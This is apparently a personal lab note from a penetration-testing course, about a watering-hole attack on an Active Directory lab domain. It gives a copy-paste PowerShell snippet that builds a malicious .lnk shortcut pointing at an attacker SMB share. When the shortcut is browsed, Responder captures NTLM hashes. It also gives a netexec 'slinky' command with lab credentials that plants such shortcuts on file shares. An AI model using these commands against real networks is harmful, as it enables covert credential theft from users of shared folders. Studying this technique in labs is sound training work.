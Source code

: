 Placing a malicious file in a shared folder can lead to some great results.

We can use elevated powershell to do this:

![[Pasted image 20240829115125.png]]

Text to copy-paste from:

```Powershell
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\192.168.138.149\@test.png" 
$lnk.WindowStyle = 1 $lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```

What we're doing is we are taking this and we're generating a file and that is getting placed in a file share. And what happens is if responder is up, and that file is triggered, we can capture a hash. Its a watering hole attack.

![[Pasted image 20240829115447.png]]

You can also use a tool called netexec, which is a sister to crackmapexec and you can run this command in the /opt/NetExec folder:

```bash
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

Just replace the IP, username, password, DC with yours. The server IP is your attacker IP address. Thats all :)